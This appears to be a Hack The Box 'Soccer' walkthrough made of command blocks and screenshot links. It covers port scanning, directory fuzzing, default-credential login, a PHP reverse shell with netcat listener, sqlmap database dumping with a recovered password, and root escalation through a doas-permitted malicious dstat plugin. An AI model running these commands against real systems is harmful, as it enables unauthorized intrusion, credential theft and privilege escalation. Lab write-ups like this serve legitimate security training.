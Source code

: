 ```
nmap -p- -T5 -Pn 10.10.11.194
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://soccer.htb/tiny/FUZZ -fw 4 -e .aspx,.php,.txt,.html,.sh
google: tiny file manager default credentials
admin/admin@123
git clone https://github.com/pentestmonkey/php-reverse-shell.git
nc -nlvp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 –batch
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D soccer_db --dump –batch
ssh player@10.10.11.194
find / -type f -perm -4000 2>/dev/null
cat /usr/local/etc/doas.conf
man dstat
ls -ld /usr/local/share/dstat
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
doas /usr/bin/dstat –list
doas /usr/bin/dstat --pwn
```


```
nmap -p- -T5 -Pn 10.10.11.194
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b8a88354-8431-4faf-bed1-9189bef20fd4)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://soccer.htb/FUZZ -fw 4 -e .aspx,.php,.txt,.html,.sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://soccer.htb/tiny/FUZZ -fw 4 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f1f40f57-6fb8-48e4-9629-59bb877e854c)

![image](https://github.com/regarmulia/HTB/assets/33616880/acda7e8e-9e80-4d80-a1a3-333f9f8e4469)

```
google: tiny file manager default credentials
admin/admin@123
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c6bedb07-7a47-436f-942b-15c949de746b)

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
nc -nlvp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4b12ad89-0d39-4877-b12f-73dab6bb0ea3)

![image](https://github.com/regarmulia/HTB/assets/33616880/ad22edf8-9aa4-49ea-a9df-ecc608b234d0)

![image](https://github.com/regarmulia/HTB/assets/33616880/b8e4db97-b66e-4138-a1b4-38552e356b67)

```
Sign in
OR 1=1
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 –batch
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D soccer_db --dump –batch
1324 | player@player.htb | PlayerOftheMatch2022 | player
```
![image](https://github.com/regarmulia/HTB/assets/33616880/27f854e3-b36e-4beb-90a7-708e4bbeeffa)

![image](https://github.com/regarmulia/HTB/assets/33616880/176c97ff-d6f4-4bb5-b65e-0206dd0acaf1)

![image](https://github.com/regarmulia/HTB/assets/33616880/fb5cc7e0-df48-4be9-b984-60361ec55bb6)

```
ssh player@10.10.11.194
find / -type f -perm -4000 2>/dev/null
cat /usr/local/etc/doas.conf
man dstat
ls -ld /usr/local/share/dstat
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
doas /usr/bin/dstat –list
doas /usr/bin/dstat --pwn
```
![image](https://github.com/regarmulia/HTB/assets/33616880/90eed874-4f01-4e17-894d-5755485f29a7)

![image](https://github.com/regarmulia/HTB/assets/33616880/268a22c0-f6ec-4990-bedd-586de1a71a28)

![image](https://github.com/regarmulia/HTB/assets/33616880/ae59afef-26d4-43bf-b25a-b44eeeaaecae)
